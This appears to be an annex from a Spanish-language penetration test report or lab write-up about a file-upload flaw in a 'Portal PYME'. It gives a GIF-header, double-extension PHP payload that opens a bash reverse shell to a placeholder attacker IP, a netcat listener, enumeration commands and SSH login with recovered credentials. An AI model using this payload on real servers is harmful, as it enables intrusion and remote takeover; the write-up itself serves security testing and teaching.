\crearanexo{Carga de archivos y ejecución remota de comandos}{anexo:file_upload_rce}

% ---------------------------------------------------

\subsubsection*{Objetivo}

El objetivo de esta fase es aprovechar la funcionalidad de subida de imagen de perfil del Portal PYME para conseguir ejecución remota de comandos sobre el servidor web y obtener una reverse shell con el usuario del servicio web.

\subsubsection*{Contexto}

Tras acceder al panel interno del portal, se identifica una funcionalidad disponible en la sección de perfil que permite subir una imagen de usuario. Aparentemente, la aplicación intenta restringir la carga de archivos ejecutables, bloqueando ficheros con extensión \texttt{.php}.

\begin{figure}[H]
    \centering
    
\includegraphics[width=0.85\textwidth]{Imagenes/portal_interno.png}

    \vspace{0.2cm}
    \captionazul{Panel interno del Portal PYME desde el que se accede a la funcionalidad de subida de archivos.}
    \label{fig:anexo_upload_portal_interno}
\end{figure}

\subsubsection*{Análisis del filtrado}

Las pruebas iniciales muestran que un fichero PHP directo, como \texttt{shell.php}, es rechazado por la aplicación. Sin embargo, el filtrado no impide que el archivo contenga una cabecera propia de imagen y conserve una extensión ejecutable adicional.

La debilidad se basa en que la aplicación valida parcialmente el tipo aparente del archivo, pero no evita que el servidor web interprete el contenido como PHP una vez almacenado en el directorio público \texttt{/uploads/}.

\subsubsection*{Creación del payload}

Se prepara un archivo híbrido denominado:

\begin{configbox}
shell.gif.php
\end{configbox}

El fichero comienza con la cabecera \texttt{GIF89a}, propia de archivos GIF, seguida de código PHP encargado de iniciar una conexión inversa hacia la máquina atacante.

\begin{configbox}
GIF89a
<?php
exec("/bin/bash -c 'bash -i >& /dev/tcp/<IP_ATACANTE>/4444 0>&1'");
?>
\end{configbox}

La dirección \texttt{<IP\_ATACANTE>} debe sustituirse por la IP real de la máquina Kali dentro del segmento de red correspondiente.

\subsubsection*{Preparación del listener}

Antes de ejecutar el payload, se prepara un listener en la máquina atacante:

\begin{bashbox}
nc -lvnp 4444
\end{bashbox}

\subsubsection*{Ejecución del archivo subido}

Tras subir correctamente el archivo, se invoca desde el navegador o mediante \texttt{curl}:

\begin{configbox}
http://<IP_SERVIDOR>:8080/uploads/shell.gif.php
\end{configbox}

Si el servidor interpreta el archivo como PHP, se ejecuta el código incluido en el payload y se establece una conexión inversa hacia la máquina atacante.

\subsubsection*{Resultado esperado}

El listener recibe una conexión entrante desde el servidor víctima y proporciona una shell con el usuario del servicio web:

\begin{configbox}
www-data@victima:/var/www/html/uploads$
\end{configbox}

La ejecución de comandos básicos permite confirmar el contexto de ejecución:

\begin{bashbox}
whoami
id
hostname
pwd
\end{bashbox}

\begin{figure}[H]
    \centering
    
\includegraphics[width=0.85\textwidth]{Imagenes/www-data.png}

    \vspace{0.2cm}
    \captionazul{Obtención de una shell inicial con el usuario del servicio web.}
    \label{fig:anexo_www_data_shell}
\end{figure}

\subsubsection*{Enumeración inicial del servidor}

Una vez obtenida la shell, se realiza una enumeración básica del sistema:

\begin{bashbox}
whoami
id
hostname
hostname -I
ip a
ls -la
ls -la /shared
\end{bashbox}

Durante esta fase se identifica que el servicio web se ejecuta en un entorno contenerizado y que existe un directorio compartido con credenciales reutilizables.

\subsubsection*{Acceso SSH con credenciales recuperadas}

En el directorio compartido se localiza un fichero con credenciales asociadas al usuario \texttt{dev}:

\begin{configbox}
Usuario: dev
Password: dev123
Servicio: SSH
\end{configbox}

Dado que el servidor expone SSH, se utiliza dicha cuenta para obtener una sesión más estable sobre el servidor Ubuntu:

\begin{bashbox}
ssh dev@<IP_SERVIDOR>
\end{bashbox}

\begin{figure}[H]
    \centering
    
\includegraphics[width=0.85\textwidth]{Imagenes/escalada-privilegio-web.png}

    \vspace{0.2cm}
    \captionazul{Acceso al servidor Ubuntu mediante credenciales recuperadas durante la post-explotación.}
    \label{fig:anexo_escalada_privilegio_web}
\end{figure}

